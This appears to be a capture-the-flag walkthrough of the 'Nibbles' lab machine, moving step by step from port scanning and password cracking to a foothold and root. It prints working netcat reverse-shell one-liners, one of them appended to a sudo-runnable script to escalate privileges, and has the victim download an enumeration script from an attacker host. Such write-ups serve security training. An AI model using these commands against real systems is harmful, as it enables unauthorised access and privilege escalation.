

# Nibbles Box

1. Enumerate using port scanning against target application to find out open ports and the services that are running. Use tool such as nmap
2. Web footprinting techniques help to gather more information about the target, use tools like whatweb, gobuster to scan directories for web application.
3. Performing password cracking ,we can use tools like hashcat/hydra. However it is important to analyze information that is available,it is not uncommon to crack passwords by crawling websites using cewl
4. Commence initial foothold by trying to inject reverse shell after successfully logging into website so that we can inject arbitary commands that we want
5.  To inject reverse shell, can upload php file with reverse bash shell command -&#x20;

    ```shell-session
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
    ```


6. It will be best if we can inject a fully interactive terminal , privillege commands such as su or sudo can be only run using a terminal. We can use python to create to upgrade to a full `python3 -c 'import pty; pty.spawn("/bin/bash")'`

<figure><figcaption></figcaption></figure>

7.  Privilege escaltion -  we can run [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) to run automated privllege checks. Host the LinEnum bash script in attacker machine\
    `sudo python3 -m http.server 8080`\
    \
    &#x20;and get the victim machine to download this file by using wget \
    `wget http://10.10.15.38:8080/LinEnum.sh`\
    \
    Running ./LinEnum, we can see interesting sudo privlliges that can be run without password\


    <figure><figcaption></figcaption></figure>
8. Inject reverse shell into bash script with netcat listener  `echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh`&#x20;
9.  Start listner script with reverse shell listner using sudo command&#x20;

    ```shell-session
    sudo /home/nibbler/personal/stuff/monitor.sh
    ```

Also another way is to use metasploit console and its libraries which are far more straightforward
